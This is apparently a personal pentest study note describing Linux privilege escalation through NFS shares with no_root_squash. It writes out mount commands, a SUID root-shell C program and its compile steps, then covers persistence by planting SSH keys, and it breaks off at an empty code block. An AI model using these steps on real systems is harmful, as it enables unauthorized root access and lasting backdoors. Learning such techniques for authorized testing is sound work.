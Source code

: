 # NFS
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help us gain root access on the target system. Finding a root ssh private key on the target system and connecting via SSH is a way to obtain root instead of trying to increase our current user's privilege level.

Another vector could be a misconfigured network shell. NFS (Network File Sharing) configuration is kept in the `/etc/exports` file, this file is created during the NFS server installation and can usually be read by users.
The critical element for this privilege escalation is the `no_root_sqash` option. By default, NFS will change the root user to `nobody` and strip any file from operating with root privileges. But if the `no_root_squash` option is present on a writable share, we can create an executable with the SUID bit set and run it on the target system.

We can now start by enumerating mountable shares from our attacking machine like so
```sh
showmount -e TargetIP
```
We will then mount one of the `no_root_squash` shares to our attacking machine and start building an executable (ej with a share `/tmp`). First we make a new folder on our attacking machine
```sh
mkdir /hacker/folder
```
and mount that folder to the target folder
```sh
mount -o rw TargetIP:/tmp /hacker/folder
```
Essentially we are creating a new directory on our attacking machine to then link that directory with the `/tmp` one inside the target machine with read-write permissions, so if we create an executable on our machine it will appear on the target as well. From here we can try a C code to open a shell. (nfs.c)
```c
void main(){
setuid(0);
setgid(0);
system("/bin/bash");
}
```
To then compile it and set the SUID bit
```sh
gcc nfs.c -o nfs -w
chmod +s nfs
```
And finally run it in the target machine to gain a shell with root.

# Backshoting
Once we are inside a system, we can try to to leave a backdoor behind in order to come back another time.
## SSH keys
If login with [[Cryptography#SSH Authentication|SSH keys]] is enabled for users but a key is not already in place for them we can add create our own pair of keys and leave the public key in the target machine for us to quickly come later and with a stable shell. By creating a key in our machine with 
```sh
ssh-keygen
```
to then either copy the public key manually into `authorized keys` with `cat`, transferring the public key file into the `~/.ssh` folder or use
```sh
ssh-copy-id -i [privatekey] user@host
```
for it to automatically add the corresponding public key to the user in the target machine. And finally we can enter at any time with
```sh
```